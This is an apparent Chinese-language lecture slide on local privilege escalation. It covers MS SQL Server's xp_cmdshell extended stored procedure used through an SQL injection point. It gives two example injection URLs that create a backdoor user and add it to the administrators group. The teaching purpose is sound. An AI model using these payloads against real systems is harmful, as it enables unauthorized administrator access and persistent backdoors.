

# 本地特权提升与利用数据库扩展存储过程
进一步本地权限提升
利用系统或某些特权应用服务(如Serv-U)安全漏洞
利用系统配置不当提升系统权限
MS SQL Server等DBMS支持扩展存储过程
xp_cmdshell, 需要sa帐户权限
通过SQL注入点执行相应的扩展存储过程
添加有本地系统管理员权限的后门用户帐号
http://SITE/xxx.asp?some_rec=yyy; exec master.xp_cmdshell “net user name password /add”
	http://SITE/xxx.asp?some_rec=yyy; exec master.xp_cmdshell “net localgroup name administrators /add”
2022年10月24日
15